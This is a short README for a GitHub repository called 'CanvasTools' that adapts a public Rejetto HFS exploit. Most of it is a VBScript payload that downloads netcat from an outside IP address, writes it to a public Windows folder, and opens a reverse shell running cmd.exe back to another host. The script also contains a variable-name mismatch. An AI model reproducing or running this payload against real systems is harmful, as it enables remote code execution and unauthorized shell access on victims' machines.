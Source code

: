 # CanvasTools

Series of updates for exploits

## Updates
https://github.com/darkniyt/CanvasTools/wiki

### Updates to 39161.py:  https://github.com/darkniyt/CanvasTools/blob/main/39161.py
Source:  Rejetto HFS exploit:  https://www.exploit-db.com/exploits/39161
####  Includes below changes to respctive script.vbs
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", "http://10.6.26.69/nc64.exe", False
xHttp.Send
with bStrm
    .type = 1 '//binary
    .open
    .write xHttp.responseBody
    .savetofile "C:\Users\Public\nc.exe", 2 '//overwrite
end with
Set objShell20= CreateObject("WScript.Shell")
objShell.Exec("C:\Users\Public\nc.exe -d 10.6.26.44 443 -e cmd.exe")
